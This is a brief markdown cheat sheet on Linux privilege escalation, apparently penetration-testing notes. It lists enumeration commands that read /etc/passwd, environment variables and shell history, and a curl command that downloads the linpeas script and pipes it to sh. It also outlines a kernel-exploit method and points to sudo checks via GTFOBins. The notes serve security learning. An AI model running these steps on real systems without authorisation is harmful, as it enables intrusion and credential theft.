 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```

# Automated tools

```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit

Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.



